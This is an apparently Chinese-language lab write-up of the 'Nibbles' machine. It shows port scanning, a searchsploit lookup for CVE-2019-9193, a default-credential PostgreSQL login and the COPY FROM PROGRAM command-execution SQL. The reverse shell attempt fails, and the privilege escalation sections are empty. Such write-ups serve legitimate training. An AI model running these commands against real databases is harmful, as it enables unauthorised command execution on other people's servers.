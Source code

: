 ```yaml
---
icon: check
description: Medium / Linux / PostgreSQL命令执行 / CVE-2019-9193
---
```


# ✔️ Nibbles

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA nibbles 192.168.215.47 --open
```

<figure><img src="../.gitbook/assets/7.png" alt=""><figcaption></figcaption></figure>

* 扫描的同时可尝试直接使用IP地址登录查看是否有Web页面，很幸运有，但是好像没有什么特别的信息。

<figure><img src="../.gitbook/assets/1 (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/2 (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/3 (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/5 (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/6 (12).png" alt=""><figcaption></figcaption></figure>

* 使用dirsearch检查是否有隐藏文件/目录，没有：

```bash
dirsearch -u  http://192.168.218.47 -x 403,404,400
```

<figure><img src="../.gitbook/assets/4 (12).png" alt=""><figcaption></figcaption></figure>

* 根据Nmap的扫描结果，发现21端口正运行着FTP服务，尝试匿名登录，失败：

```bash
ftp 192.168.215.47
```

<figure><img src="../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 在5437端口上正在运行的是PostgreSQL 11.3-11.9版本的服务，搜索公开已知的漏洞发现了一个远程命令执行的漏洞正好适用于当前版本：

<figure><img src="../.gitbook/assets/9.png" alt=""><figcaption></figcaption></figure>

* 下载下来查看脚本使用说明：

```bash
searchsploit -m 50847.py
python3 50847.py -h
```

<figure><img src="../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 脚本利用始终失败，但是该端口运行的postgresql服务有弱口令登录，用上述脚本中的默认凭证可以成功登录该服务：

<figure><img src="../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

```bash
psql -h 192.168.210.47 -p 5437 -U postgres
```

<figure><img src="../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 根据上述搜索出的利用脚本得知漏洞为CVE-2019-9193，搜索找到可手动利用的步骤：

<figure><img src="../.gitbook/assets/13.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/14.png" alt=""><figcaption></figcaption></figure>

* 验证结果说明目标确实存在着命令执行漏洞：

```bash
\c postgres
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec; 
```

<figure><img src="../.gitbook/assets/16.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例尝试用手动利用和脚本利用均无法成功反弹shell，暂不清楚原因先搁置...
{% endhint %}

<figure><img src="../.gitbook/assets/17.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/18.png" alt=""><figcaption></figcaption></figure>

***

## 权限提升

### 本地信息收集

### 漏洞利用

### ROOT

{% hint style="info" %}


(本例机器中途重置过，IP地址有变，不影响漏洞利用及其实现结果)
{% endhint %}
